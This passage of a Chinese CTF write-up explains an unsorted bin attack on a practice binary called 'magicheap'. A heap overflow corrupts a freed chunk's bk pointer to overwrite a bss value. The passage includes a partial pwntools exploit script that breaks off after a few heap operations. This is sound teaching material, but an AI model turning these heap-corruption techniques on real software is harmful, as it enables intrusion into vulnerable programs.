 ```c++
    read_input(heaparray[v2], v0);
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v4;
}

```

我们需要利用这个堆溢出漏洞，完成bss段修改的需求。最容易想到的方法应该是直接构造unlink利用。

该题由于提示用unsorted bin attack，unsorted bin attack的利用效果是将任意地址的数修改为一个很大的数，看起来似乎没有什么用，但也至少有如下两个利用场景：

- 我们通过修改循环的次数来使得程序可以执行多次循环。
- 我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。

具体的原理可以去CTF Wiki上看（<https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/>）

我们使用堆溢出，修改相邻的位于unsorted bin中的chunk的bk字段，指向我们想要修改的地址 - 0x10。由于unsorted bin是FIFO，我们只需要malloc一次，就能将目标地址的数修改为main_arena+offset的地址，即一个远远大于0x1305的数，也就实现了利用。

exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./magicheap")
p = process("./magicheap")

def create(size, content):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("Heap : ")
	p.sendline(str(size))
	p.recvuntil("heap:")
	p.send(content)

def edit(index, size, content):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(index))
	p.recvuntil("Heap : ")
	p.sendline(str(size))
	p.recvuntil("heap : ")
	p.sendline(content)
	p.send(content)


def delete(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(index))

create(0x10, "a")
create(0x80, "b")
create(0x10, "c")

delete(1)
```
